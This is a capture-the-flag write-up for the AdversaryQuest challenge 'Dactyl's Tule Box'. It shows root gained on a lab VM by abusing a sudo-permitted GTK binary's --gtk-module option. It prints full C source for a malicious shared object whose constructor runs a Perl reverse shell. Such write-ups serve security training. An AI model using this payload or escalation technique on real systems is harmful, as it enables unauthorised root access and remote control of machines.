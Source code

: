 ```yaml
---
title: "Dactyl's Tule Box"
date: 2021-01-30T19:50:05-06:00
tags: ["AdversaryQuest", "CTFs"]
---
```


#### Challenge Description:

> We just received another report that PROTECTIVE PENGUIN was identified at a company that provides access to mapping software as a service. The adversary allegedly elevated privileges and then moved laterally to a backup server.

> We were provided with a Virtual Machine Image of the mapping service. Can you analyze the image and reproduce the attack? If you think you've got it, the victim let us stand up an exact replica of their environment so that you can validate your results:

#### Write-Up:

For this challenge we had to do an interesting priviledge escalation using a GTK binary. We're given a `.qcow2` QEMU virtual machine image and the first challenge is being able to access it. You can use nbd to mount the filesystem and change users' passwords in `/etc/shadow` to get access. There's an extra layer of difficulty due to the filesystem using [Logical Volume Management (LVM)](https://wiki.archlinux.org/index.php/LVM). [These instructions](https://gist.github.com/pshchelo/6ffabbffaedc46456b39c037d16e1d8c) were a big help.

After finally getting access, we can log in as the low privilege user `customer01` and find the privilege escalation vector immediately. 

```
customer01@maps-as-a-service:~$ sudo -l
Matching Defaults entries for customer01 on maps-as-a-service:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User customer01 may run the following commands on maps-as-a-service:
    (ALL) NOPASSWD: /usr/local/bin/mapviewer

```

If we enabled X11 forwarding with ssh (`-X` option), we can run the binary and see the GUI program. 

![running mapviewer with X11 forwarding](images/penguin-tulebox-running-mapviewer.png)

Clicking around a bit we can see a bunch of error messages that indicate we are dealing with a GTK application. One of the released hints also makes a paticular note of that.

```
(mapviewer:4735): GdkPixbuf-CRITICAL **: 02:18:11.327: gdk_pixbuf_new_from_data: assertion 'width > 0' failed
(mapviewer:4735): GLib-GObject-CRITICAL **: 02:18:11.327: g_object_set_qdata_full: assertion 'G_IS_OBJECT (object)' failed
(mapviewer:4735): GdkPixbuf-CRITICAL **: 02:18:11.327: gdk_pixbuf_scale_simple: assertion 'GDK_IS_PIXBUF (src)' failed
```

One common privilege escalation vector with sudo is that command line parameters after the specified command are allowed. Sudo allows us to run something like `sudo /usr/local/bin/mapviewer --extra --parameters` and those parameters might be able to help us escalate privileges. The given parameters are fairly slim though:

![mapviewer's default commandline parameters](images/penguin-tulebox-parameters.png)

But it [turns out](https://developer.gnome.org/gtk3/stable/gtk-running.html#GTK-Debug-Options) all GTK programs accept certain standard commandline parameters. Many are related to debugging but one in particular jumps out: `--gtk-module module` which loads any gtk module you pass to it. If we can make a malicious GTK module, ask mapviewer to load it using `--gtk-module`, we might be able to execute code as root. Let's try to make a malicious module using [these very helpful instructions](https://stackoverflow.com/questions/10260940/how-to-create-and-load-a-gtk-module):

![gtk module POC](images/penguin-tulebox-gtk-module-poc.png)

Note that you need to specify the full path to the module. But running as root we have a problem:

![problem running as root](images/penguin-tulebox-root-problem.png)

When running as root, mapviewer is unable to initialize our X server, then `gtk_init` fails, and `gtk_module_init` isn't run. I spent quite some time trying to break `xauth` to allow root to initialize X but another hint from the organizers pushed me away from this tactic: 

> "You can not receive X display from mapviewer if it is started as root. However, the solution involves running that binary as root"

[Reading more about shared object injection](https://www.exploit-db.com/papers/37606), it turns out we don't need to run `gtk_module_init` to execute code. If we put our exploit code in a `__attribute__((constructor))` function, it will be run as soon as the shared object is loaded - we don't need `gdb-init` to succeed or X to initialize. Recompiling our `badmod.so` with an `__attribute__((constructor))` that runs a local reverse shell, and we finally get a root shell.

```
customer01@maps-as-a-service:~$ cat badmod.c 

#include <stdio.h>
#include <stdlib.h>
#include <gtk/gtk.h>

__attribute__((constructor)) void foo(void) { 
	system("perl -e 'use Socket;$i=\"127.0.0.1\";$p=7777;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'");
}

void gtk_module_init(gint *argc, gchar ***argv) {
	printf("hey mom!\n");
}
```

Using the exploit in the replicated environment, we get root and find a recently run command in `.bash_history`. Running it, and we obtain the flag.

![getting the flag](images/penguin-tulebox-flag.png)